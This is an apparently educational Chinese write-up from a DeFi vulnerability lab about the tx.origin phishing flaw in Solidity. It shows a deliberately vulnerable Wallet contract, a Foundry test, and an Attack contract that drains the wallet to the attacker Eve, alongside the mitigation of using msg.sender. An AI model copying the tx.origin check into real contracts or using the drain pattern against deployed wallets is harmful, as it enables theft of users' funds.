

# txorigin-网络钓鱼  
[txorigin.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/txorigin.sol)  
**名称：** 不安全的tx.origin漏洞  
tx.origin是Solidity中的一个全局变量，在智能合约中使用此变量进行身份验证会使合约容易受到网络钓鱼攻击。  

**场景：**  
Wallet是一个简单的合约，只有所有者才能转移以太币到另一个地址。Wallet.transfer()使用tx.origin来检查调用者是否是所有者。让我们看看我们如何破解这个合约。  


**发生了什么？**  
Alice被骗去调用Attack.attack().在Attack.attack()函数中，有将Alice钱包中的所有资金转移到Eve的地址的操作。由于Wallet.transfer()中的tx.origin等于Alice的地址，因此它授权了转移。钱包将所有以太币转移给了Eve。

**缓解建议：**  
建议使用msg.sender。  
**参考：**  
https://hackernoon.com/hacking-solidity-contracts-using-txorigin-for-authorization-are-vulnerable-to-phishing  

**合约：**  
```
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        // 使用msg.sender去检查而不是tx.origin
        require(tx.origin == owner, "Not owner");

        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Failed to send Ether");
    }
}
``` 
**如何测试：**  
forge test --contracts src/test/txorigin.sol -vvvv  
```
// 用于测试使用tx.origin的漏洞的函数。
function testtxorigin() public {
    // “alice”和“eve”的地址是从以太坊虚拟机中获取的。
    address alice = vm.addr(1);
    address eve = vm.addr(2);

    // Alice得到10个以太币，Eve得到1个以太币。
    vm.deal(address(alice), 10 ether);
    vm.deal(address(eve), 1 ether);

    // 对Alice进行作恶
    vm.prank(alice);

    // Alice部署了一个包含10个以太币的钱包合约。
    WalletContract = new Wallet{value: 10 ether}();

    // 将记录钱包合约的所有者。
    console.log("Owner of wallet contract", WalletContract.owner());

    // 对Eve进行作恶
    vm.prank(eve);

    // Eve部署了一个攻击合约，并提供Alice钱包合约的地址。
    AttackerContract = new Attack(WalletContract);

    // 记录攻击合约的所有者。
    console.log("Owner of attack contract", AttackerContract.owner());

    // 记录Eve的余额。
    console.log("Eve of balance", address(eve).balance);

    // Alice被骗调用attack函数
    vm.prank(alice, alice);
    AttackerContract.attack();

    // 记录tx.origin地址和msg.sender地址。
    console.log("tx origin address", tx.origin);
    console.log("msg.sender address", msg.sender);

    // 记录Eve的更新后的余额。
    console.log("Eve of balance", address(eve).balance);
}

// Attack合约用于攻击Wallet合约对漏洞。
contract Attack {
    address payable public owner;
    Wallet wallet;

    // 构造函数将Wallet合约作为参数。
    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet);
        owner = payable(msg.sender);
    }

    // attack函数将所有以太币从Wallet合约转移到Attack合约的所有者。
    function attack() public {
        wallet.transfer(owner, address(wallet).balance);
    }
}
``` 
**红框：** 转移所有的以太币到Eve了。  
